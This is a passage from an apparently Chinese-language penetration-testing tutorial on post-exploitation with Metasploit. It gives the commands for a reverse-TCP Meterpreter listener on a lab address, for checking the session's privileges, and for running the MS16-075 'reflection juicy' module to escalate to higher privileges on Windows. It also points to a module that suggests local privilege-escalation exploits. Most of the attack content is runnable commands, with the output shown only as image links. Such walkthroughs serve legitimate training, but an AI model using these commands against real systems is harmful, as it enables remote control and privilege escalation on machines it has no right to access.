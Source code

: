#### 1.2.4.设置设置参数

监听ip和端口，这里的ip和端口要生成后门的端口和ip一致。

```python
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.70.4
set lport 8888
exploit
```

#### 1.2.5.获取系统信息

获取系统信息和当前账号发现权限较低， 需要进行提权。

![image-20241009140515337](https://image.201068.xyz/assets/38.后渗透/image-20241009140515337.png)

```python
getuid
```

![image-20241009140541105](https://image.201068.xyz/assets/38.后渗透/image-20241009140541105.png)

#### 1.2.6.搜索漏洞模块

```python
background
search ms16_075
```

![image-20241009140957546](https://image.201068.xyz/assets/38.后渗透/image-20241009140957546.png)

#### 1.2.7.使用模块进行提权

```python
use exploit/windows/local/ms16_075_reflection_juicy
show options
set payload windows/meterpreter/reverse_tcp
set session 1
run
```

![image-20241009141127656](https://image.201068.xyz/assets/38.后渗透/image-20241009141127656.png)

#### 1.2.8.提权成功

```python
getuid
```

![image-20241009141053935](https://image.201068.xyz/assets/38.后渗透/image-20241009141053935.png)

#### 识别系统可能存在的本地提权漏洞

也可以使用 `use post/multi/recon/local_exploit_suggester` 识别系统可能存在的本地提权漏洞

